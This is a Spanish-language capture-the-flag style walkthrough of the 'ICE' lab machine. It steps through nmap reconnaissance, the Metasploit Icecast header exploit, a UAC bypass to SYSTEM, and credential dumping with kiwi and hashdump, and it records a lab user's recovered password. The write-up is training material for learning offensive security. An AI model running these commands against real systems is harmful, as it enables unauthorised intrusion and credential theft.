

---
layout: default
---

# Máquina ICE

##

## Fase 1: Reconocimiento (Reconnaissance)

**Objetivo:** Identificar servicios y versiones vulnerables.

1. **Comando:** `sudo nmap -p- --open -sS -Pn -sV -sC --min-rate 5000 [IP_VICTIMA]`
- `p-`: Escaneo de todos los puertos.
- `-open`: Muestra solo puertos con estado abierto.
- `sS`: TCP SYN Scan (Stealth) para mayor velocidad y discreción.
- `Pn`: Omite el descubrimiento de host (evita bloqueos de ICMP/Ping).
- `sV / -sC`: Detección de versiones y ejecución de scripts por defecto.
1. **Servicio Crítico:** Icecast en el puerto **8000**.
2. El resultado del Nmap donde se vea el puerto 8000/tcp abierto con la versión `Icecast streaming media server`. (Referencia: `image_b9ddb0.jpg`).

### **Evidencia Visual**



## Fase 2: Análisis de Vulnerabilidades

**Objetivo:** Encontrar el exploit adecuado para la versión detectada.

1. **Comando:** `searchsploit icecast`
2. **Módulo MSF:** `exploit/windows/http/icecast_header` (CVE-2004-1561).
3. El terminal con los resultados de `searchsploit` resaltando el exploit de Metasploit. (Referencia: `image_5453a6.png`).

### **4. Evidencia Visual**


##

## Fase 3: Explotación Controlada (Acceso Inicial)

**Objetivo:** Obtener una sesión de Meterpreter como usuario de bajos privilegios.

1. **Comandos:**Bash
    
    ```bash
    msfconsole -q<br>use exploit/windows/http/icecast_header<br>set RHOSTS [IP_VICTIMA]<br>set LHOST [TU_IP_VPN]<br>exploit
    ```
    
2. **Verificación:** Ejecutar `getuid` y `sysinfo` al recibir la sesión.
3. El banner de "Meterpreter session 1 opened" y la info de `sysinfo` mostrando `Windows 7 (64 bit)`. (Referencia: `image_afdda0.png`).

### 3. Evidencia Visual


## Fase 4: Escalada de Privilegios

**Objetivo:** Saltar el UAC y convertirse en SYSTEM.

1. **Comandos:**Bash
    
    ```bash
    background<br>use exploit/windows/local/bypassuac_eventvwr<br>set SESSION 1<br>set LHOST [TU_IP_VPN]<br>set LPORT 4445<br>run
    ```
    
2. **Elevar Privilegios:** En la nueva sesión (Sesión 2), ejecutar: `getsystem`.
3. El comando `getsystem` confirmando "...got system via technique 1". (Referencia: Tu registro de terminal previo).


## Fase 5: Post-Explotación y Credenciales

**Objetivo:** Estabilizar la sesión y extraer contraseñas.

1. **Migración (Vital):** Debido a que el sistema es x64, hay que moverse a un proceso nativo.
    - Comando: `ps`
    - Comando: `migrate 1384` (O el PID de `spoolsv.exe`).

1. **Extracción con Kiwi:**Bash
    
    ```bash
    load kiwi<br>creds_all<br>hashdump
    ```
    
2. La tabla de `wdigest credentials` mostrando el usuario `Dark` y su contraseña `Password01!`. (Referencia: Tu ejecución exitosa de `creds_all`).


### 6. Comandos de Verificación Final

Una vez que `getsystem` haya funcionado, ejecuta estos tres comandos juntos:

- **Comando:** `getuid`
    - *Debe responder:* `Server username: NT AUTHORITY\SYSTEM`
- **Comando:** `getprivs`
    - *Debe mostrar una lista larga. Busca `SeDebugPrivilege` o `SeTakeOwnershipPrivilege`*


